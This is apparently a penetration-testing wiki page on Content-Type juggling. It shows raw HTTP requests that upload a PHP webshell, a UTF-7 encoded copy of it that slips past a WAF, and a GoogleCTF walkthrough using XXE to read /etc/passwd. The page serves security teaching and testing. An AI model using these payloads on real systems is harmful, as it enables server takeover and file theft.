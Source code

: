 # Content-type juggling

## Theory

**Content-type juggling** exploits the lack of checking on the `Content-Type` header when submitting a HTTP request.

**Most of the time, Content-Type juggling is a component that allows attacks to be carried out such as [unrestricted-file-upload](unrestricted-file-upload.md) or [xxe-injection](content-type-juggling#example-of-a-content-type-juggling-attack-on-api)**.

{% hint style="info" %}

The Content-Type header is used to indicate the MIME type of the resource.

- In requests, (such as POST or PUT), the client tells the server what type of data was actually sent.

- In responses, a Content-Type header tells the client what type of content is actually being returned. Browsers may try to detect the MIME type of content by inspecting it rather than by respecting the value of this header.

{% endhint %}


### Example

Let's take this HTML form and the POST request following the submit of this form. 

```HTML
<form action="/" method="post" enctype="multipart/form-data">
  <input type="text" name="description" value="some text" />
  <input type="file" name="myFile" />
  <button type="submit">Submit</button>
</form>
```

```
POST /foo HTTP/1.1
Content-Length: 68137
Content-Type: multipart/form-data; boundary=---------------------------974767299852498929531610575

-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="description"

some text
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.txt"
Content-Type: text/plain

(content of the uploaded file foo.txt)
-----------------------------974767299852498929531610575--
```

The first `Content-Type` header use the `enctype`. The second one tells the server what type of data was actually sent, here, a file.

### Vulnerability

It is possible to intercept the request above and perform a `Content-Type juggling`. To do this, switch the Content-Type Header to whatever you want.
In the example below, we managed to upload a PHP webshell thanks to the Content-Type juggling, changing it from `text/plain` to `application/php`

```
POST /foo HTTP/1.1
Content-Length: 68137
Content-Type: multipart/form-data; boundary=---------------------------974767299852498929531610575

-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="description"

some text
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.php"
Content-Type: application/php

 <?php system($_GET["cmd"]); ?>
-----------------------------974767299852498929531610575--
```

{% hint style="danger" %}

If the XCTO (X-Content-Type-Options) security header is present, it will be difficult to perform the Content-Type juggling. As you can read in [mime-sniffing](../../web/config/http-headers/mime-sniffing.md). XCTO security header can be used to indicate that the MIME types advertised in the Content-Type headers should be followed and not be changed by the browser depending on the page's content. Websites that implement that security header with the nosniff directive must also include a valid Content-Type header in their responses.

{% endhint %}

### Charset juggling or how to bypass WAF

Sometime, the Content-Type header have another value `charset=<value>`:

```
Content-Type: text/html; charset=utf-8
```

In this case, you can try to edit the charset (from utf-8 to utf-7) to bypass security controls such as :&#x20;
-  Web Application Firewall (WAF)
-  Regex that check the value of the form

You can't bypass the X-Content-Type-Options even using this technique.

#### Example

In this example, we are able to perform Content-Type juggling by we are getting by a WAF. To bypass it, we are going to perform a charset juggling.

Getting caught by a WAF :&#x20;

```
POST /foo HTTP/1.1
Content-Type: application/php; charset=utf-8
Content-Length: 19

<?php system($_GET["cmd"]); ?>
```

Bypassing the WAF :&#x20;

```
POST /foo HTTP/1.1
Content-Type: application/php; charset=utf-7
Content-Length: 19

+ADw-?php system(+ACQAXw-GET+AFsAIg-cmd+ACIAXQ-)+ADs- ?+AD4-
```

## Practice

In order to identify if the target is vulnerable to Content-Type juggling, testers need to answer the following questions :&#x20;
- Is there a post request with value(s) and Content-Type header ?
- Is there no presence of the X-Content-Type-Options security header ?
- Can we edit the Content-Type header and still submit the post request successfully ?

If you answered yes to all the questions, then you should be able to perform Content-Type juggling. Don't forget that, most of the time, Content-Type juggling is a way to perform other attacks. 

Attack to try to perform :&#x20;
- If you can switch to `application/xml`, try XXE.
- If you can switch to `application/zip`, try uploading malicious zip file.
- If you can switch to `application/php`, try uploading php payloads.
- If you can switch to `application/image`, try uploading [malicious image](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html)

**Don't stick to this list, always try several Content-Type values.**

<details>

<summary>Here is the list of all the mist common the Content-Type possibilities : &#x20;</summary>


1. Type application
    - application/java-archive
    - application/EDI-X12   
    - application/EDIFACT   
    - application/javascript   
    - application/octet-stream   
    - application/ogg   
    - application/pdf  
    - application/xhtml+xml   
    - application/x-shockwave-flash    
    - application/json  
    - application/ld+json  
    - application/xml   
    - application/zip  
    - application/x-www-form-urlencoded
2. Type audio
    - audio/mpeg   
    - audio/x-ms-wma   
    - audio/vnd.rn-realaudio   
    - audio/x-wav   
3. Type image
    - image/gif   
    - image/jpeg   
    - image/png   
    - image/tiff    
    - image/vnd.microsoft.icon    
    - image/x-icon   
    - image/vnd.djvu   
    - image/svg+xml   
4. Type multipart
    -  multipart/mixed    
    -  multipart/alternative   
    -  multipart/related (using by MHTML (HTML mail).)  
    -  multipart/form-data  
5. Type text
    - text/css    
    - text/csv    
    - text/html    
    - text/javascript (obsolete)    
    - text/plain    
    - text/xml   
6. Type video
    - video/mpeg    
    - video/mp4    
    - video/quicktime    
    - video/x-ms-wmv    
    - video/x-msvideo    
    - video/x-flv   
    - video/webm    
7. Type vnd
    - application/vnd.android.package-archive
    - application/vnd.oasis.opendocument.text    
    - application/vnd.oasis.opendocument.spreadsheet  
    - application/vnd.oasis.opendocument.presentation   
    - application/vnd.oasis.opendocument.graphics   
    - application/vnd.ms-excel    
    - application/vnd.openxmlformats-officedocument.spreadsheetml.sheet   
    - application/vnd.ms-powerpoint    
    - application/vnd.openxmlformats-officedocument.presentationml.presentation    
    - application/msword   
    - application/vnd.openxmlformats-officedocument.wordprocessingml.document   
    - application/vnd.mozilla.xul+xml   
    
</details>
 
### Example of a Content-Type Juggling attack on API leading to XXE

For this example, we're going to use the writeup from [Nicholaz99](https://github.com/Nicholaz99) explaining one of the GoogleCTF challenge from 2019.
The first URL lead to this page, that is a form that we can submit.

![WebPage from GoogleCTF 2019](../../.gitbook/assets/CT-JUGGLING-1.png)

When intercepting the request, we can see that the search API will post a JSON with key “message” and a value of the city that you pick in Braille Dots (Zurich =  135601360123502401401250). 

![Intercepting the request](../../.gitbook/assets/CT-JUGGLING-2.png)

Now, we can start answering the practice questions that we mentioned above. In this case, the two first can be answered by "yes". For the third, we have to try to perform a Content-Type juggling. We are going to change the Content-Type from `application/json` to `application/xml`. Doing so, we can try to execute a XXE payload.

![Performing Content-Type smuggling](../../.gitbook/assets/CT-JUGGLING-3.png)

As you can see above, it works. By combining Content-Type juggling with another attack, it's possible to extract informations.

The last screenshot shows how to perform a blind XXE. You can read more about it in [xxe-injection](xxe-injection.md). Doing so, we are able to extract the "/etc/passwd" file on the server.

![Crafting an XXE payload to extract /etc/passwd](../../.gitbook/assets/CT-JUGGLING-4.png)


## Ressources

{% embed url="https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#content-type-from-json-to-xee" %}

{% embed url="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type" %}
